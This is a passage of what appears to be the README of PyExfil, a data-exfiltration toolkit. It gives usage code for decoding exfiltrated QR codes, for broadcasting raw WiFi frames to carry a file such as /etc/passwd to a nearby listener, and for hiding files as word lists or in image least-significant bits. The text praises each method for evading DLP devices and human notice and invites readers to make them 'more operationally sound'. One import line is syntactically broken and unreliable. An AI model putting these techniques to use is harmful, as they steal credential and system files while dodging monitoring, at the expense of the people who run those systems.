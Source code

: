 Decoding the QR Codes
```python
from pyexfil.physical.qr.decoder import startFlow, DIR_MODE, CAM_MODE

if __name__ == "__main__":
    startFlow(mode=DIR_MODE) # will use data in 'output' directory.
    startFlow(mode=CAM_MODE) # will use data from camera
```

#### WiFi Frame Payload
This technique is especially efficient when you have some physical proximity to the machine that will exfiltrate the data and for large data sets. The idea behind this is to create Dot11 frames without any network association and sending them out. Any DLP device should not detect this as there is no 'real' network connectivity. There is no handshake, association or any other indication that the machine is communicating over WiFi other than the NIC sending frames.

This method can exfiltrate large data sets due to these conditions but required physical proximity to intercept the packets. Please bear in mind that we have built no quality compensation mechanism. Therefore, a single dropped packet and the data is lost. As always, we endorse anyone to add QA features to this technique and make it more operationally sound.

```python
# Client (exfiltrator)
from pyexfil.physical.wifiPayload import client

client.exfiltrate(file_path="/etc/passwd", key="shut_the_fuck_up_donnie!")

# Server (listener)
from pyexfil.physical.wifiPayload import server

server.StartListening(adapter="en0")
```

### Steganography

#### BIP Style Dictionary
This module will use a previously made dictionary (that be be replaced with any unique list of words with 65,536 words) to encode data into a list of words. The idea is that the list of words will be used to replace the bytes in a file. The resulting text will **not** be legible and will raise suspicion by any human reading it. This module is meant to be used in conjunction with other modules to exfiltrate data **OR** by embedding this text on a text based communication service. For example, an email or an Office document can include text that is not legible to the human eye but can be decoded by the module.

```python
from pyexfil.Stega.ConvertToText as BipExport

packed = BipExport.Load('/etc/passwd')     # Encode
print(BipExport.Decode(packed))            # Decode
```

#### Datamatrix over LSB
This module will take a file and encode it into a datamatrix code. The datamatrix code will be encoded into the LSB of an image. The resulting image will be saved in the same directory as the original image. It works in a similar manner to other LSB mechanisms, however, since the data is encoded by using a DataMatrix code, the data is more reliable and can be decoded with a higher success rate, and more importantly, the data is not legible to the human eye - hence stealthy.
